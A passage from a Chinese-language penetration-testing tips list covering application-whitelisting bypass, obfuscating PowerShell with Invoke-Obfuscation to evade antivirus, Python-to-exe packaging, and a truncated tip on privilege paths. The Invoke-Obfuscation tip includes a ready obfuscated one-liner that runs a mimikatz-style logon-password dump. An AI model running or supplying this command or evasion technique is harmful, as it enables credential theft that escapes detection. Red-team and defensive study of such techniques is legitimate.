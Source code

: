 解码：

```
$fileContent = [System.Convert]::FromBase64String($encoded)
```
参考：

[《Study Notes of using BGInfo to bypass Application Whitelisting》](https://3gstudent.github.io/3gstudent.github.io/Study-Notes-of-using-BGInfo-to-bypass-Application-Whitelisting/)

---

### Tips 36 如果powershell脚本被查杀，可以尝试使用Invoke-Obfuscation进行混淆

https://github.com/danielbohannon/Invoke-Obfuscation

eg.

设置要混淆的代码：

```
set scriptblock " Invoke-111111 -Command "log privilege::debug sekurlsa::logonpasswords exit" "
```

输入`encoding`

输入`1`，指定编码为ascii

得到混淆后的代码：

```
" $(SEt-iTem  'VARIaBle:OFS' '' ) "+ [StRinG](( 73,110 , 118 ,111, 107, 101, 45, 49, 49 ,49 ,49 ,49 , 49, 32 , 45 , 67, 111, 109 , 109, 97 , 110 , 100 , 32,34,108, 111, 103 ,32, 112 ,114 , 105,118,105,108, 101, 103 ,101, 58 , 58 , 100 , 101 , 98, 117 ,103,32 , 115,101,107 ,117,114 , 108,115, 97 ,58 , 58, 108 ,111 ,103,111,110, 112, 97, 115 ,115,119, 111, 114, 100, 115, 32, 101, 120,105,116 ,34 )|FOReacH-objeCT{( [ChAR][iNT] $_) } ) +"$( Set-variAbLE  'oFS'  ' ' ) "|. ( $env:PUbLic[13]+$eNv:PuBlIc[5]+'x')
```

---

### Tips 37 python脚本转exe

常见的两种方法：

- 使用py2exe
- 使用PyInstaller

使用方法和常见bug解决方法可参照参考链接

参考：

[《本地密码查看工具LaZagne中的自定义脚本开发》](https://3gstudent.github.io/3gstudent.github.io/%E6%9C%AC%E5%9C%B0%E5%AF%86%E7%A0%81%E6%9F%A5%E7%9C%8B%E5%B7%A5%E5%85%B7LaZagne%E4%B8%AD%E7%9A%84%E8%87%AA%E5%AE%9A%E4%B9%89%E8%84%9A%E6%9C%AC%E5%BC%80%E5%8F%91/)

---

### Tips 38 普通用户权限向管理员权限的路径下写文件
